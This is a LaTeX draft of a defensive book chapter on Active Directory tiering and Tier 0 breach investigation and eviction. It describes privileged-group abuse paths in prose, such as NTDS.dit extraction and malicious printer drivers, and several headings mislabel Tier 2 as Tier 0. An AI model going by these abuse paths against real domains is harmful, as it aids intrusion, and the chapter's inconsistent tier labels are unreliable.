Tier 2 environments are typically the most exposed segment of an enterprise network, encompassing user workstations, laptops, and other general-purpose endpoints. Because they interface directly with email, web browsers, removable media, and cloud-based applications, they present the broadest attack surface and thus introduce common entry points and attack vectors for attackers to penetrate. As such, Tier 2 administrators and defenders must be strictly separated from Tier 1 and Tier 0 domains to prevent lateral movement.

From both a defensive and offensive standpoint, a compromise at this tier carries significant implications.

\section{An Defender's View on What a Tier 0 Compromise Means}
From a defender's viewpoint, Tier 0 is the front line of an organization's complete security posture. A successful breach of a Tier 2 asset can be just as devastating compared to a Tier 0 breach and can have cascading effects of epic proportions if not properly contained.

Entry points and attack vectors a defender needs to be aware of when dealing with Tier 2 assets is listed below.

\begin{itemize}
    \item \textbf{Entry Point for Malware and Phishing Campaigns:} Endpoints in Tier 2 are often the target of spearphishing, drive-by downloads, and malicious email and file attachments. A compromised user endpoint device can become a beachhead for malware deployment or ransomware execution.
    \item \textbf{Credential Exposure Risks:} Tier 2 machines frequently cache user credentials or are used to perform routine administrative tasks, especially in poorly segmented environments. If privileged credentials are ever exposed or reused on these information systems, attackers may harvest them using tools like \textbf{Mimikatz} or \textit{LSASS (Local Security Authority Subsystem Service)} dumps.
    \item \textbf{Lateral Movement Vectors:} If strict administrative separation is not enforced, a compromised Tier 2 endpoint can be used to pivot into Tier 1 (server infrastructure) or even Tier 0 (identity infrastructure). For example, if help desk or junior admins with broader access log into Tier 2 systems, their elevated tokens become valuable targets.
    \item \textbf{Impact on Incident Response (IR):} A breach in Tier 2 may require wide-scale endpoint investigations, imaging, or re-imaging-consuming IR and S\textit{OC (Security Operations Center)} resources. Without proper network segmentation, one compromised device can lead to rapid spread through endpoint-to-endpoint movement.
    \item \textbf{Loss of User Trust and Operational Disruption:} Widespread Tier 2 compromise often results in downtime for employees, disruptions to critical business operations, and a loss of confidence by the end-user and stakeholders in ITs (Information Technology) ability to safeguard information systems.
\end{itemize}
    
This hierarchical model is central to implementing secure administrative security boundaries. It underpins many of the technical actions described in later sections of this chapter, particularly around account separation, access control, and trust rebuilding in post-breach scenarios.

\section{An Attacker's View on What a Tier 0 Compromise Means}
From an attacker's view, Tier 2 is the low-hanging fruit-the ideal springboard for deeper infiltration into the internal network.

\begin{itemize}
    \item \textbf{Initial Toehold and Persistence:} Tier 2 information systems are typically where attackers first gain access-through phishing, social engineering, browser exploits, or infected USB drives; however, once inside, adversaries often deploy \textit{Remote Access Trojans (RATs)}, and begin either passive or active reconnaissance activities.
    \item \textbf{Credential Harvesting and Escalation:} Attackers are known to dump credentials or hash values from Tier 2 machines to identify any higher-privileged users. If local administrator accounts share passwords across machines, \textit{Pass-the-Hash (PtH)} or \textit{Local Privilege Escalation (LPE)} can quickly lead to broader access and more devastating compromise.
    \item \textbf{Network Reconnaissance and Target Selection:} Compromised Tier 2 information systems allow attackers to map the targeted environment using tools like \textbf{BloodHound}, \textbf{SharpHound}, or \textbf{PowerView}. This reconnaissance helps to identify domain trusts, service accounts, and high-valued targets.
    \item \textbf{Lateral Movement:} By exploiting misconfigurations, for example, \textit{Unconstrained Delegation}, admin sessions, or \textit{SMB (Server Message Block)} shares, attackers can pivot to Tier 1 information systems, eventually aiming for Tier 0. A single overlooked Tier 2 workstation can become the key to domain ownership.
    \item \textbf{\textit{Living-Off-The-Land (LoTL)} Techniques}: Modern attackers often avoid dropping binaries. Instead, they abuse native Windows tools such as PowerShell, Sysinternals PsExec, and Certutil (to name a few) on Tier 2 machines to remain stealthy, bypass security detection measures, and blend effortlessly into legitimate user behaviors.

In sum, a Tier 2 compromise might seem minor on the surface-after all, it is "just a user machine." But in reality, it is often the first domino to fall in a full-domain breach. From a defensive standpoint, this makes Tier 2 hygiene, segmentation and monitoring absolutely essential. From an offensive perspective, Tier 2 is a fertile playground for exploitation, especially in organizations that have not implemented strict tier separation or credentialed boundaries.

Hardening Tier 2 is not just a best practice-it is a necessary critical security control in preventing the escalation chain that ultimately leads to Tier 0 compromise.

\subsection{Understanding the Trusted Core}
In the context of enterprise cybersecurity and \textit{Incident Response (IR)}, the term \textbf{trusted core} refers to the most sensitive components of the information system-those whose compromise would signify systemic risk across the entire infrastructure. The trusted core contains the \textbf{most critical components of the identity infrastructure}-the systems and entities that \textbf{must remain uncompromised} for the entire security model to remain intact.

The trusted core encompasses services and information systems that are foundational to control, governance, and security. If an attacker gains control over any element within this core, defenders must assume that the \textbf{entire environment is compromised.}

\subsection{Trusted Core Components}
The trusted core encompasses the most critical information systems and services that uphold the security and integrity of the enterprise identity infrastructure. While not exhaustive, it typically includes the following components:

\subsection{Identity and Access Management (IAM)}
Core identity services such as Active Directory Domain Services (AD DS), underlying authentication databases, and Kerberos ticketing infrastructure responsible for verifying and issuing identity claims across the environment.

\subsection{Virtualization Management Platforms}
Hypervisor hosts and their management consoles, including information systems such as VMware or Microsoft Hyper-V Manager. These platforms often host Tier 0 assets and must be protected to prevent indirect control over the domain.

\subsection{Privileged Administrative Infrastructure}
Information systems used to administer high-privileged environments, including \textit{bastion hosts}, \textit{jump servers}, dedicated administrative consoles, and \textit{Privileged Access Management (PAM)} solutions. These components facilitate access to Tier 0 information systems and are a prime target for attackers seeking elevation.

\subsection{Security Monitoring and Detection Systems}
Centralized platforms that oversee detection, logging, and incident response-such as \textit{Security Information and Event Management (SIEM)} systems, \textit{Endpoint Detection and Response (EDR)} tools, and audit logging infrastructures. Compromising these components blinds defenders and allows attackers to operate with sheer impunity.
\end{itemize}

In secure Active Directory enterprise architectures \textbf{minimizing the scope and complexity of the trusted core} is a key design goal. A smaller, well-defined core is easier to harden, monitor, and rebuild in the event of a breach. Overextension introduces unnecessary exposure and increases the likelihood of human-error and misconfigurations.

\subsection{Trusted Core in Active Directory Environments}
Within an Active Directory (AD) deployment, the trusted core is tightly aligned with the \textbf{Tier 0 assets}, as defined in the previous section. This includes the entire authentication infrastructure and any information system that can exert control over it. Accordingly, any compromise at this level requires immediate containment and a comprehensive rebuild of trust.

\subsection{Security Implications}
Because of its systemic importance, the trusted core must be:

\begin{itemize}
    \item \textbf{Logically and physically isolated} from lower-tiered environments (Tiers 1 and 2).
    \item \textbf{Administered using hardened, purpose-built accounts and devices.}
    \item \textbf{Monitored continuously for signs of unauthorized access or anomalous behaviors.}
\end{itemize}

By maintaining a lean and clearly scoped trusted core, defenders can improve incident response agility, reduce lateral movement opportunities, and re-establish control faster during a crisis.

\subsection{Privileged Groups in Active Directory}
In an Active Directory (AD) environment, \textbf{privileged groups} are built-in security groups that hold extensive administrative rights over the domain, forest, or specific informational subsystems within the core directory infrastructure. These groups can directly manage or elevate privileges within the environment and are, therefore, high-valued targets for adversaries seeking domain dominance.

Compromise of any privileged group can grant an attacker complete control over Tier 0 assets and, by extension, the entire identity infrastructure. These groups must be tightly monitored, strictly controlled, regularly audited, and properly isolated from lower-tiered administrative scopes.

\section{Critical Privileged Groups}
Below is a list of key native privileged groups and their associated risks:

\subsection{Administrators}
Full control over the domain; members can modify any setting or object in Active Directory.

\subsection{Domain Controllers (DCs)}
Represents all domain controllers, including
\textit{Read-Only Domain Controllers (RODCs)}
and
\textit{Backup Domain Controllers (BDCs).}
Any compromise here directly will impact the authentication infrastructure.

\subsection{Schema Administrators}
Can modify the AD schema, allowing changes to the directory structure and behavior-potentially enabling stealthy persistence mechanisms.

\subsection{Enterprise Administrators (EAs)}
Forest-wide privileges across all domains; this group is rarely needed in daily operations and should remain empty whenever possible.

\subsection{\textbf{Domain Administrators (DAs)}}
Grants full administrative access within the domain, including the ability to read sensitive data from the secrets database (for example, \textit{New Technology LAN Manager (NTLM)} hashes and Kerberos tickets). These accounts are capable of extracting credentials for all privileged users.

\subsection{Key Administrators / Enterprise Key Administrators}
Manages keys and certificate attributes used in Windows Hello for Business. They can assign cryptographic credentials, and in environments with certificate-based authentication, impersonate privileged users by generating and assigning certificates-even for domain controllers-unless protected by \texttt{adminSDHolder.}

\subsection{Account Operators}
Can create, modify, and delete most user, computer, and group accounts-except those protected by \texttt{adminSDHolder.} Improper use or compromise of this group enables mass user manipulation.

\subsection{Server Operators}
Have the ability to log on locally and manage servers, including domain controllers. Their privileges can be used to access or dump sensitive credentialed material.

\subsection{Backup Operators}
Can back up and restore files, including the Active Directory database (\texttt{NTDS.dit}) from a domain controller-making it possible to extract and crack all stored secrets offline.

\subsection{Print Operators}
Can install printer drivers on domain controllers. A common abuse path involves loading a \textbf{malicious driver} to execute code in kernel mode, thereby gaining \texttt{SYSTEM}-level access and extracting credentials.

\section{Security Implications}
Because of their ability to manipulate domain-wide configurations and operations, extract secrets, and escalate privileges, these groups are frequently targeted by adversaries after initial access and toehold has been established. Common tactics include:
\begin{itemize}
    \item \textbf{Privilege escalation through token theft or \textit{SID (Security Identifier)} abuse}
    \item \textbf{Persistence via rogue additions to privileged groups}
    \item \textbf{Credential theft using tools like Mimikatz or DCSync}
\end{itemize}

    Additionally, \textbf{mitigation measures} include:
    \begin{itemize}
        \item Minimizing group membership and maintaining strict access controls
        \item Implementing monitoring and alerting for group membership changes
        \item Enforcing tier isolation and Just-In-Time (JIT) administrative access
        \item Applying protections such as \texttt{adminSDHolder} and Credential Guard mechanisms
    \end{itemize}

Effective defense starts with a clear inventory of privileged groups and a deep understanding of their security impacts and implications. In an incident recovery scenario, validation and cleansing of these groups is a critical task during the rebuild of Tier 0 trust.

\section{Understanding the Criticality of Control Paths in Active Directory}
A \textit{control path} is a logical chain of control relationships between security principals (users, groups, computers) in an Active Directory (AD) environment. Each link in the path represents a privilege or property that allows only one entity to exert influence or administrative control over another. These pathways-whether explicitly configured or unintentionally exposed-serve as potential routes an attacker can exploit to escalate privileges, move laterally, or establish persistence.

Essentially, control pathways map the \textbf{means by which an attacker can reach high-value targets}, such as Tier 0 assets, from a lower-privileged starting point.

\subsubsection{\textit{Understanding Control Relationships}}
Examples of control relationships include:
\begin{itemize}
    \item \textbf{Group membership inheritance:} For example, User A is a member of Group B, which is a member of the Domain Admins (DAs) group
    \item \textbf{Delegated permissions on AD objects:} For example, User A has \texttt{GenericAll} or \texttt{WriteDACL} on User B.
        \item \textbf{Local administrator rights over machines:} For example, User A has local admin rights on a workstation where User B, a Tier 0 admin, logs in
        \item \textbf{GPO-linked privilege escalation:} For example, \textit{Group Policy Objects (GPOs)} that allow logon or startup scripts that grant elevated access
        \item \textbf{Certificate-based control (ESC1-ESC8):}  For example, control over AD templates or Certificate Authorities (CAs) that permit issuing authentication certificates
        \end{itemize}

\subsection{\textit{Security Value of Control Pathway Analysis}}
Analyzing control pathways brings many benefits to the table for defenders, such as:
\begin{itemize}
    \item \textbf{Identifying privilege escalation vectors:} Revealing unintended pathways attackers could exploit to reach Tier 0
        \item \textbf{Validating security boundaries:} Ensuring isolation between Tier 2, Tier 1, and Tier 0 is properly enforced
        \item \textbf{Uncovering persistence mechanisms:} Detecting residual control pathways attackers may have embedded for long-term access, such as the use of \textit{Remote Access Trojans (RATs)}, \textit{keyloggers}, and \textit{backdoors}.
\end{itemize}

Tools such as \textbf{BloodHound, PingCastle,} and \textbf{AD ACL scanners} can help defenders to map and logically visualize control pathways, making it easier to audit privilege assignments to better enforce proper network segmentation.

By eliminating unauthorized or overly permissive control relationships, defenders can aid their organization in significantly reducing the amount of available attack surfaces by limiting the movement options available to adversaries post-compromise. In the context of Tier 0 remedial efforts, cleansing and remediating these control pathways is a critical component of regaining and re-establishing domain integrity.

\section{The Role of Active Directory Assessment Items}
To support the defense and recovery objectives of Active Directory (AD) environments, this chapter references a curated \textbf{list of assessment items} published by the CERT-FR. This list serves as a living resource aimed at helping defenders and organizations identify and mitigate security weaknesses across their AD infrastructures. This list reflects not only current best practices and industry-accepted standards, but also the evolving threat landscape targeting today's identity information systems.

The assessment items cover a broad spectrum of AD components, including configuration hygiene, delegation models, privilege assignments, trust boundaries, logging capabilities, and update policies. Each item is designed to guide defenders in evaluating their environments against known attack vectors and misconfigurations that are frequently exploited in real-world cyberattacks. This includes vulnerabilities introduced through legacy systems, system hardening and through the introduction of newly implemented security controls to an environment's existing security posture, overly permissive access controls, and permissions creep, and unmonitored administrative pathways and routes.

Unlike a static checklist, the CERT-FR assessment framework is \textbf{intended to evolve.} It is regularly updated to incorporate lessons learned from security audits, red team operations, ethical hacking security engagements, and incident response cases. As attackers refine their TTPs-especially in targeting Tier 0 assets-defensive guidance must be equally dynamic. This ongoing development ensures that defenders can guide organizations in applying the checklist and assist them in remaining aligned with the latest adversarial tactics and emerging research in Active Directory security.

Defensive operations and security teams are encouraged to treat the checklist as a baseline for continuous improvement. By regularly reviewing and applying these assessment and security control items, defenders can proactively identify gaps in identity architecture and prioritize remediation efforts before an adversary has the chance to exploit them.

While this list is not exhaustive, it provides a solid foundation for establishing strong AD governance. It should be used in conjunction with technical tools, ongoing architectural reviews, and manual verification and validation efforts to develop a comprehensive picture and road-map of the domain's overall existing security posture.

\section{Structure of This Chapter}
This chapter is organized into four interconnected parts, each aligned with a critical phase in Active Directory Tier 0 remediation. Together, they provide a structured, technically grounded framework to support defenders in regaining control of an already compromised identity infrastructure and reinforcing its long-term resilience.

\subsubsection{1. Technical Actions for the \textit{Investigation} of Active Directory Tier 0}
The first section focuses on investigative procedures necessary to assess the integrity of Tier 0 assets following a suspected or confirmed breach. In any remedial effort, it is essential to determine whether critical components-such as Domain Controllers, privileged groups, and key administrative workflows-have been compromised.

This phase centers on identifying points of unauthorized access, tracing potential attacker persistence, and validating the current state of high-value assets. The goal is to build a clear and comprehensive view of where eviction operations must be executed.

\subsubsection{2. Technical Actions for the \textit{Eviction} From Active Directory Tier 0}
Once the scope of compromise has been established, the next phase involves the \textbf{systematic eviction} of the adversary from Tier 0. This section outlines a set of technical objectives tailored to the remediation scenario in use-whether the focus is rapid recovery, full re-control, or long-term re-architecture.

The eviction process must not only remove active threat presence but also address systemic weaknesses that allowed the compromise in the first place. These actions aim to restore confidence in the trust boundary of the Active Directory and ensure that no residual access or privilege remains that could facilitate a re-entry.

\subsubsection{3. Technical Actions for the Supervision of Active Directory Tier 0}
Effective remediation must be paired with real-time visibility. This section emphasizes the need for continuous \textbf{supervision and monitoring} of Tier 0 during and after remedial efforts have concluded.

It presents methods for deploying and optimizing detection mechanisms that can precisely alert defenders to abnormal behaviors, lateral movement attempts, or privilege misuse. Supervision is not a post-incident luxury-it is a parallel track that strengthens operational and situational awareness by ensuring that remediation remains intact as time progresses.

\subsection{4. Appendices}
The final section includes \textbf{appendices containing practical tools and reference materials.} These consist of sample scripts, configuration checklists, privilege separation models, and other operational artifacts to help defenders implement the actions discussed throughout the chapter thus far.

These supplemental documents serve as an applied companion to the core material presented herein, and aims to bridge the gap between conceptual guidance and hands-on execution.

This structured approach ensures that every aspect of Tier 0 recovery-from investigation to security hardening-is addressed in a coherent and actionable way. Each part builds upon the last, supporting defenders not only in eliminating active threats but in reconstructing a more secure and resilient Active Directory foundation.

\section{PART I: Technical Actions for Investigation of Active Directory Tier 0}

\subsection{Purpose and Context}
Before any remediation effort can be deemed successful, it is essential to perform a thorough investigation of the Active Directory (AD) Tier 0 environment. The goal of this phase is to ensure that no malicious artifacts, behaviors, or compromised configurations are propagated during the rebuilding process-particularly from the originally compromised Domain Controllers (DCs) to \textbf{pivot} or \textbf{reconstructed} controllers.

This investigation must be conducted with \textbf{extreme care.} Domain Controller replication is a core function of AD and, if not properly controlled, can serve as a malicious vehicle for reinfection. Malicious elements residing in the original DCs-whether in the form of scripts, binaries, persistence mechanisms, or privilege modifications-must be identified and removed prior to replication into clean and sanitized infrastructure.

To support this objective, the investigation's primary focus is on two key levels of analysis: \textbf{network-level behaviors} and \textbf{system-level integrity.}

\subsection{Network-Level Analysis}
At the network layer, the investigation seeks to detect abnormal or adversarial activities during domain controller replication. Replication traffic between the \textbf{compromised source}, the \textbf{pivot domain controller}, and the \textbf{reconstructed controller} must be closely monitored and analyzed for signs of malicious interference.

Key objectives of network-level monitoring may include, and are not limited to:
\begin{itemize}
    \item \textbf{Detection of malicious scripts or unauthorized programs} being executed or transferred during replication cycles. These could potentially indicate or infer that the attacker has embedded automation for re-establishing control.
    \item \textbf{Monitoring for user account manipulations}, such as the creation or modification of privileged identities, which could signify attacker attempts to embed persistence within the directory during DC replication.
    \item \textbf{Vulnerability exploitation attempts} embedded in replication behaviors-such as malformed requests or command injections-should also be examined thoroughly, especially if custom replication or unusual \textit{RPC (Remote Procedure Call)} activities are observed.
    \item \textbf{Identification of lateral movement indicators}, particularly traffic that implies cross-control or unauthorized administrative actions between the compromised and pivot controllers.
\end{itemize}

Network packet captures (e.g., PCAPs) and flow-based telemetry must be reviewed in a time-bound and context-aware manner, paying close attention to both known attacker TTPs and anomalous network patterns.

\section{System-Level Analysis}
At the system level, a defender's priority is to ensure that the \textbf{pivot} and \textbf{reconstructed} Domain Controllers remain clean and uncompromised after replication events have occurred. This includes a detailed inspection of binaries, scripts, scheduled tasks, services, and persistence mechanisms.

This phase of the investigation process typically includes, but is not limited to:
\begin{itemize}
    \item A \textbf{baseline comparison of the pivot controller before and after replication}, with a focus on files, registry keys, services, scheduled tasks, and AD object changes. Any \textbf{differential} detected must be examined and re-examined and validated against known-good security baselines.
    \item A check for \textbf{unauthorized binaries or malicious PowerShell scripts}-especially those placed in system directories, logon scripts, or Group Policy paths.
    \item A thorough search for \textbf{persistence techniques}, including \textit{Windows Management Instrumentation (WMI)} subscriptions, malicious \textit{DLLs (Dynamic Link Libraries)}, rogue service entries, or hijacked scheduled tasks.
    \item Verification and validation that \textbf{privileged groups} have not been altered or modified in any way that no new administrative accounts or unauthorized permissions have or can be granted.
\end{itemize}

Unexplained changes or suspicious artifacts uncovered during this analysis should be flagged for deeper investigation. Even benign-seeming discrepancies can serve as vectors for re-establishing attacker presence post-eviction.

\subsubsection{\textbf{\textit{Outcome and Importance}}}
The technical investigation phase is \textbf{not optional}-it is foundational to the integrity of the remediation process. Without rigorous analysis of both network- and system-level behaviors, there is a high risk of \textbf{reintroducing the attacker} into the newly build environment, rendering the remediation efforts ineffective.

This phase acts as a gatekeeper before eviction and rebuild actions are executed. It validates that the environment is safe to proceed, that the pivot controller can be trusted, and that the replicated AD infrastructure will not carry forward any remnants of compromise.

By conducting these investigations thoroughly and methodically, defenders effectively establish the assurance necessary to move forward with confidence into the next phase: \textbf{technical eviction from Tier 0}.

\section{PART II: Technical Actions for Eviction from Active Directory Tier 0}

\subsection{Introduction}
Evicting an adversary from the Active Directory (AD) Tier 0 environment is a pivotal and technically complex phase of the remediation process. The actions detailed in this section are guided by three strategic remediation scenarios-each representing a different level of urgency, depth, and long-term security ambition. These scenarios are drawn from the broader strategic and operational corpus supporting AD remediation efforts.

Tier 0, or the \textit{trusted core}, represents the most sensitive and impactful portion of the enterprise identity infrastructure. As such, the approach to eviction must be both strategic and surgically precise. Simply removing attacker access is not sufficient enough-defenders must neutralize all persistence mechanisms, reassert control over hijacked privileged accounts and systems, and lay the groundwork for long-term resilience.

\section{Remediation Scenarios and Objectives}

\subsection{Scenario 1: Restore Mission-Critical Services Quickly}
In this scenario, the priority is operational continuity. The objective is to rapidly resume business operations by eliminating active attacker access identified during the investigation phase. This involves restoring a \textbf{minimal trusted core}, sufficient enough to support essential business functions, while deferring more extensive hardening measures until the crisis has been officially stabilized.

This approach is often chosen under time pressure-such as when critical services (e.g., email, authentication, file access) must be restored immediately to support business functions; however, it comes with increased risk, as remnants of attacker access may persist if a deeper analysis is postponed.

\subsection{Scenario 2: Take Back Full Control of the Information System (IS)}
Here, the goal for the defender is more ambitious: not only to evict the attacker, but to \textbf{secure Tier 0 against common attack techniques}. This includes patching known vulnerabilities, revalidating privileged group memberships, resetting compromised credentials, and enforcing strict administrative boundaries.

This scenario acknowledges that the attacker may have already established \textbf{multiple toeholds (or footholds)} across the environment, and a comprehensive effort is required to remove them. It also assumes a commitment to addressing architectural weaknesses that enabled the compromise in the first place.

\subsection{Scenario 3: Seize the Opportunity for Long-Term IS Control}
This scenario treats the breach not only as a crisis, but as a catalyst for transformation. The objective is to \textbf{re-architect the management and security of the entire AD forest}, using the eviction effort as a launchpad to strengthen long-term governance.

Key actions include the elimination of legacy components and configurations, implementation of tiered administration, redefinition of trust relationships, and deployment of detection and auditing capabilities. In this model, defenders go beyond reaction to move toward more \textbf{proactive security posture enhancement}, ensuring that the attacker cannot return-even via previously unnoticed implanted or embedded backdoors.

\subsection{Forest-Wide Considerations}
A critical aspect of Active Directory security is that the \textbf{security boundary is the forest, not the domain itself}. This means that attacker eviction cannot be considered successful unless \textbf{all domains within the compromised forest have been remediated simultaneously.}

Failure to remediate every domain concurrently introduces the risk of \textit{cross-domain contamination}-where a compromised domain can reintroduce malicious artifacts or re-establish attacker access in a domain that has already undergone remediation; therefore, \textbf{synchronization across the AD forest} is essential for eviction efforts to be considered effective.

\subsection{Scope of Technical Actions}
The technical actions outlined in this chapter focus on the most commonly abused control pathways-the privilege escalation and persistence techniques observed most frequently in real-world AD breaches. This includes manipulation of privileged groups, exploitation of \textit{Access Control Lists (ACLs)}, misuse of \textit{SSL (Security Sockets Layer)} certificates, and abuse of replication mechanisms.

However, no two attacks are identical. Defenders must be willing and prepared to go beyond the actions described here, incorporating threat-specific indicators, custom telemetry, and attacker-specific TTPs (Tactics, Techniques, and Procedures) into their eviction plans.

Having said that, keep in mind that remediation in and of itself is not a checklist-it is an adaptive process grounded in operational and situational awareness, forensic insight, and architectural understanding.

\subsection{Summary of Eviction Objectives Across Remediation Scenarios}
The eviction phase of an Active Directory (AD) Tier 0 remediation operation is governed by the strategic goals of the chosen scenario. While certain technical actions are universally required across all scenarios, others are specific to deeper, more comprehensive recovery efforts. Below is a structured explanation of the recommended actions, groups by remediation objectives and indicating which scenario(s) they are applicable to.

\subsection{A. Ensuring Tier 0 Machines Are No Longer Compromised}
In \textbf{Scenario 2 and Scenario 3}, where the priority is either full control recovery or long-term re-architecture, \textbf{reinstallation of all Domain Controllers} and \textbf{other Tier 0 machines} (for example, jump servers and privileged management consoles or interfaces) is mandatory. This ensures a clean baseline that is free from potential attack vectors such as backdoors (or other persistence mechanisms), malware implants, or tampered binaries are nonexistent thus eliminating the threat firsthand.

However, \textbf{Scenario 1}, focused on rapid recovery efforts, may not afford the time for a full machine reinstallation effort and may instead rely on targeted cleanup guided by forensic findings-though this carries great risk with it.

All scenarios require \textbf{removal of dangerous control pathways} to Domain Controllers and \textit{Domain Name System (DNS)} servers, as combined, these two are the most commonly exploited for privilege escalation, domain take-down, or lateral movements. Control pathways to critical infrastructure components with direct influence on DCs (e.g., management platforms or configuration servers) must also be eliminated in Scenarios 2 and 3 to prevent indirect re-compromise.

\subsection{B. Stripping Delegated Access and Authentication Weak Points}
To prevent persistent access, all scenarios require \textbf{revocation of delegated authentication from Domain Controllers}, as this delegation can allow adversaries to fraudulently impersonate accounts or relay credentials aiding in credential theft attacks.

Likewise, \textbf{Read-Only Domain Controllers (RODCs)} must be secured across all scenarios, as they present unique replication pathways and credential caching risks that can be weaponized during a compromise.

\subsection{C. Renewing Secrets to Prevent Reuse of Compromised Credentials}

A foundational action across \textbf{all scenarios} is the \textbf{resetting of secrets} associated with privileged accounts and services. This may include, but is not limited to:
\begin{itemize}
    \item The \textbf{default domain administrator account}
    \item The Kerberos \texttt{\textbf{krbtgt}} \textbf{account}, which must be reset twice to invalidate existing Kerberos tickets
    \item Any \textbf{known or suspected compromised accounts}, including service accounts or privileged users
    \item The \textbf{secrets associated with trust relationships}, especially in multi-domain or multi-forest environments
\end{itemize}

In \textbf{Scenarios 2 and 3}, additional steps include \textbf{resetting the \textit{DSRM (Directory Services Restore Mode)} account password}, which can be abused in offline attacks, and \textbf{renewing \textit{Key Distribution Service (KDS)} keys}, which support features such as \textit{group-Managed Service Accounts (gMSAs)}.
    
\subsection{D. Strengthening Active Directory Configuration and Security Baseline}
Both Scenarios 2 and 3 demand more structural hardening. These include, and may not be limited to:
\begin{itemize}
    \item \textbf{Raising the forest functional level}, which enables newer security features and deprecates legacy mechanisms
    \item \textbf{Hardening the directory configuration}, including ACL reviews and schema settings
    \item \textbf{Eliminating control pathways to privileged objects}, ensuring no unauthorized principals can influence Tier 0 resources
    \item \textbf{Auditing and securing the \texttt{adminSDHolder} object}, which governs permissions on protected groups
\end{itemize}

Furthermore, transitioning \texttt{SYSVOL} replication from both \textit{\textbf{File Replication Services (FRS)}} to \textbf{\textit{Distributed File System Replication (DFSR)}} is required in these scenarios to modernize and secure Group Policy distribution mechanisms.

\subsection{E. Securing Privileged Objects and Attributes}
In \textbf{Scenarios 2 and 3}, defenders must ensure that \textbf{privileged account attributes} are not vulnerable to abuse (e.g., \texttt{userAccountControl, SIDHistory}). This includes, but is not limited to:
\begin{itemize}
    \item Auditing and correcting misconfigured \texttt{\textbf{adminCount}} attributes
    \item Verifying and validating that no unnecessary or stale permissions exist on critical objects
    \item Enforcing attribute-level protections against security control tampering or privilege escalation
\end{itemize}

\subsection{F. Cleaning and Securing Group Policy Objects (GPOs)}
All scenarios must ensure that no attacker-controlled or misconfigured GPOs are applied to Tier 0 systems. Actions include:
\begin{itemize}
    \item \textbf{Securing GPOs linked to the domain root}, which apply globally
    \item \textbf{Securing GPOs specific to Tier 0 machines and accounts}, to prevent backdoor enforcement via scripts, startup items, or scheduled tasks
    \item \textbf{Eliminating control pathways to those GPOs}, ensuring only authorized personnel can modify or link them
\end{itemize}

\subsection{G. Validating and Securing Trust Relationships}
In Scenarios 2 and 3, defenders must assess and eliminate misconfigurations in trust relationships between domains and forests. Improperly scoped trusts or outdated SID filtering can allow cross-boundary privilege escalation or unauthorized access to Tier 0 resources.

\subsection{H. Configuring Privileged Services to Avoid Tier 0 Exposure}
Privileged services, such as backup, certificate enrollment, and management platforms, must be configured so that they do not inadvertently elevate either direct or indirect exposure of Tier 0 systems. This includes ensuring:
\begin{itemize}
    \item They do not have direct administrative access to DCs or Tier 0 assets
    \item Their service accounts are isolated and not shared across tiers
    \item They do not provide privilege escalation pathways via misconfigured ACLs or management interfaces or portals
\end{itemize}

This is especially critical in Scenarios 2 and 3, where the objective includes rebuilding long-term trust in AD governance.

\subsection{I. Enforcing Secure Administrative Practices}
Across \textbf{all given scenarios}, secure administration is \textbf{non-negotiable}. As a defender, you must:
\begin{itemize}
    \item Use a well-structured \textbf{\textit{Organizational Unit (OU)}} design to enforce tiered access boundaries
    \item Assign dedicated accounts for Tier 0 administration, never reused across lower tiers
    \item Apply \textbf{strong password policies} to privileged accounts and use \textit{Multi-Factor Authentication (MFA)} services across everything else (where feasible, and where possible)
    \item \textbf{Minimize the number of privileged users}, reducing the potential attack surface
    \item \textbf{Eliminate all control pathways} to members of privileged groups only
\end{itemize}

In addition, \textit{Secured Administrative Workstations (SAWs)} or \textit{Privileged Administrative Workstations (PAWs)} should be implemented and restricted for Tier 0 use only. These hardened information systems reduce the risk administrative cross-contamination, credential theft, and lateral movements throughout the domain.

For Scenario 3 in particular, defenders should also implement \textbf{technical controls} to prevent the storage or leakage of privileged credentials on all non-Tier 0 information systems-leveraging tools like Microsoft's Credential Guard or enforcing remote-only administrative workflows.

This structured approach to attacker eviction, mapped to the remediation scenarios, ensures that defenders can select the appropriate depth of action based on the threat context and recovery and/or domain-wide restoration objectives. Regardless of the pathway chosen, attention to detail and strict adherence to tier separation guidelines are essential and necessary to truly remove adversaries and their nefarious behaviors to ultimately restore trust into your Active Directory enterprise environment(s).

\section{3. Ensuring No Tier 0 Machines Are Compromised}
\subsection{A. Reinstalling All Domain Controllers (DCs)}
The Domain Controllers (DCs) are the lifeblood of which an Active Directory infrastructure stands and forms its backbone. The DCs are ultimately responsible for storing and replicating the directories database, authenticates users, enforces policies, and maintains the overall security boundary of the domain. Because of this, a compromised Domain Controller can severely jack up the entire Active Directory environment to include compromise of all users, information systems, and security policies under their control and purview.

An attacker who is motivated enough to establish persistent access to even a single DC can rapidly re-establish a toehold, move laterally, and gain control over the entire environment immediately after eviction efforts, rendering the entire remediation process ineffective and inefficient; therefore, a complete reinstallation of all Domain Controllers is non-negotiable in a proper Tier 0 remedial effort-especially in Scenarios 2 and 3, which emphasize full security restoration and long-term resilience.

\subsubsection{\textbf{\textit{Why Reinstallation Is Essential}}}
Simply scanning or sanitizing compromised information systems is insufficient and deemed a practice for lazy administrators. Modern attacker toolkits, such as bootkits and rootkits, stealthy persistence mechanisms, and Golden and Silver Ticket techniques, can embed themselves in ways that can fluster a defender as their aim is to evade detection and survive reboots, flying low under the alerting threshold and not setting off defensive alarms. Reinstallation guarantees that:
\begin{itemize}
    \item The operating systems are rebuilt from known-good images
    \item All previously installed binaries, services, and configurations are appropriately discarded
    \item Any hidden or advanced persistence mechanisms are eradicated and eliminated
    \item Patching baselines and hardening strategies can be enforced cleanly from the outset
\end{itemize}

Furthermore, freshly installed Domain Controllers must be fully updated with the latest security patches and configurations to prevent exploitation of known vulnerabilities upon reintroduction to the network.

\section{An In-Depth Discussion Regarding Advanced Persistent Threats (APTs): What They Are, What They Do, and How They Work}
Advanced Persistent Threat (APT) is a general term that refers to sophisticated and persistent efforts to breach a computing device or network. These attacks are often targeted at a specific network resource or individual, and perpetrated by very capable and well-funded attackers (e.g., government organizations, intelligence agencies). APT attacks can employ various attack tools and techniques that exploit known or \textit{zero day (0day)} vulnerabilities, including infected media, supply chain and CI/CD pipeline compromise, and social engineering.

The purpose of these attacks is typically to place custom malicious code on one or more computers for specific tasks, and to remain undetected for the longest possible period.
    Furthermore, Advanced Persistent Threat, or APT actors employ a variety of sophisticated techniques that can guarantee them long-term persistent access to compromised information systems, often over extended periods. These techniques, known as persistence mechanisms, effectively allow attackers to bypass defensive security measures and re-establish a toehold after initial access is established or until compromised information systems are thoroughly scrubbed and sanitized of any malicious remnants or leftovers. Some common examples include:

